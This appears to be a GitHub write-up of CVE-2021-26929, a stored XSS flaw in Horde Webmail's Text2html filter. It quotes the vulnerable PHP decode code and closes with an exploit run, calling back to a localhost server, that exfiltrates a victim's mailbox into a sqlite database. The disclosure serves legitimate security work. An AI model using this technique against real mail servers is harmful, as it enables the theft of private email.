 An XSS issue was discovered in Horde Groupware Webmail Edition through 5.2.22 (where the Horde_Text_Filter library before 2.3.7 is used). The attacker can send a plain text e-mail message, with JavaScript encoded as a link or email that is mishandled by preProcess in Text2html.php, because bespoke use of `\x00\x00\x00` and `\x01\x01\x01` interferes with XSS defenses.

[source](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26929)

## Details
The issues can be found in /usr/share/php/Horde/Text/Filter/Text2html.php in the preProcess method of the Horde_Text_Filter_Text2html class. The method first looks for URLs and emails within the message and then replaces them with their base64 encoded value surrounded by a specific sentinel `(“\x00\x00\x00” in the case of URLs, and “\x01\x01\x01” in the case of emails)`. This operation is likely performed to escape the htmlspecialchars call on the message that can be seen.
```
$text2 = @htmlspecialchars($text, ENT_COMPAT, $this->_params['charset']); // 1
// ...
$text = $text2;
/* Do in-lining of http://xxx.xxx to link, xxx@xxx.xxx to email. */
if ($this->_params['parselevel'] < self::NOHTML) {
  $text = Horde_Text_Filter_Linkurls::decode($text); // 2 
  if ($this->_params['parselevel'] < self::MICRO_LINKURL) {
    $text = Horde_Text_Filter_Emails::decode($text); // 3 
  }
  if ($this->_params['space2html']) {
    $params = reset($this->_params['space2html']); $driver = key($this->_params['space2html']);
  } else {
    $driver = 'space2html'; $params = array();
  }
  $text = Horde_Text_Filter::filter($text, $driver, $params); 
}
```
## Stored XSS via in-line URLs
At it can be seen that the decode method of the Horde_Text_Filter_Linkurls class is called with the message as the first parameter. The relevant code can be seen below:
```
public static function decode($text)
{
  return preg_replace_callback(
    '/\00\00\00([\w=+\/]*)\00\00\00/', 
    function($hex) {
      return base64_decode($hex[1]); 
    },
    $text); 
}
```
As it can be seen above the method searches and replaces any instance of base64 values surrounded by the `“\x00\x00\x00”` sentinel with it’s base64 decoded value. Such functionality can be used to decode arbitrary base64 within the message, bypassing htmlspecialchars.

## Stored XSS via in-line emails
A similar issue also affects emails found within a message. At [3] it can be seen that the decode method of the Horde_Text_Filter_Emails class with the message as the first parameter. The relevant code can be seen below:
```
public static function decode($text) 
{
  return preg_replace_callback(
    '/\01\01\01([\w=+\/]*)\01\01\01/', 
    function($hex) {
      return base64_decode($hex[1]);
    },
    $text); 
}
```
As it can be seen above, almost the exact code is used to for in-line emails, as for in-line URLs, with the exception that in this case the sentinel is `“\x01\x01\x01”`.

## Conclusion
The exploit provided is designed to target an individual mailbox. When the malicious email is clicked the exploit is triggered, exfiltrating the desired mailbox and deleting itself once the exfiltration is done. Note that the only user interaction needed is for the target to click the malicious email, and also, the vulnerability can be triggered without HTML content being enabled as it is located it the text content functionality. Below a successful run of the exploit can be observed. Note that user credentials are not required for the exploit to work, and in this case the same user and mail server were used to avoid any additional complications. The callback represents the server from which the exploit will be loaded and executed, in this case localhost.
```
$ ./CVE-2021-26929-mail.py --smtp smtp://user@horde.local:p4ssw0rd@horde.local --callback http://127.0.0.1 --target user@horde.local
[*] Waiting for emails...
[+] Received mailbox (67af6a77e6b96829c2cbc6ad14bf5af508367867)
^C
[*] Done
$ sqlite3 database.db
SQLite version 3.32.3 2020-06-18 14:16:19
Enter ".help" for usage hints.
sqlite> select * from mailbox;
67af6a77e6b96829c2cbc6ad14bf5af508367867|From user@horde.local Wed Nov 25 12:14:28 2020 Return-path: <user@horde.local>
Envelope-to: user@horde.local
Delivery-date: Wed, 25 Nov 2020 12:14:28 -0500
Received: from www-data by debian with local (Exim 4.92)
(envelope-from <user@horde.local>)
id 1khyNA-0000ON-E5
for user@horde.local; Wed, 25 Nov 2020 12:14:28 -0500
Received: from [192.168.56.0] ([192.168.56.0]) by horde.local (Horde Framework) with HTTP; Wed, 25 Nov 2020 17:14:28 +0000
Date: Wed, 25 Nov 2020 17:14:28 +0000
Message-ID: <20201125171428.Horde.QK8euNyfDV0Mg7ZnErJG7xo@horde.local> From: user@horde.local
To: user@horde.local
Subject: Test email
User-Agent: Horde Application Framework 5
Content-Type: multipart/alternative; boundary="=_tg6EPuROEoVxyLRA9drJN_j" MIME-Version: 1.0
This message is in MIME format. sqlite>
```

BR @nu11secur1ty

[CVE-MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26929)
